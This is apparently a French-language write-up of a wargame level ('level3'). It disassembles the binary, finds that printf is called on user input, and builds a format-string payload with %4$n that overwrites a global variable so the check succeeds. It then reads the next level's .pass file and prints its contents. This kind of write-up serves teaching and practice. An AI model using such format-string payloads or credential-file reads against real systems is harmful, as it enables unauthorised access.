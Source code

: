 ```
objdump -M intel -d level3
```

Nous observons que la fonction main appelle une fonction "v".
Qui elle même appelle printf, qui peut être exploitée.

```
 80484ad:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484b2:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484b6:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 80484bd:	00
 80484be:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484c4:	89 04 24             	mov    DWORD PTR [esp],eax
 80484c7:	e8 d4 fe ff ff       	call   80483a0 <fgets@plt>
 80484cc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484d2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484d5:	e8 b6 fe ff ff       	call   8048390 <printf@plt>
```
Le printf print la string rentré en argument rentrée par fgets fgets() (printf(eax)).

```
 80484da:	a1 8c 98 04 08       	mov    eax,ds:0x804988c
 80484df:	83 f8 40             	cmp    eax,0x40
 80484e2:	75 34                	jne    8048518 <v+0x74>
```
Ici c'est interessant, nous faisons une comparaison et si la comparaison est fausse on part à l'adresse de sortie 0x8048518.
L'objectif est de rendre cette comparaison vrai.
Pour le faire nous changerons la valeur de cette adresse 0x804988c en utilisant printf.

Trouvons notre offset, nous chercherons la valeur ascii de "a" soit 61:
```
python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x"' | ./level3
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
```
M doit faire 64 bits donc nous ajouterons 60 bits de padding

adresse : \x8c\x98\x04\x08" ==  (  0x080484da <+54>:	mov    0x804988c,%eax) -> adresse Pointeur 
padding:  "a" * 60 64 - 4 == 60 
modification : %4\$n  -> nbre de caractere ecrit (64)


```
python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/exploit
cat /tmp/exploit - | ./level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
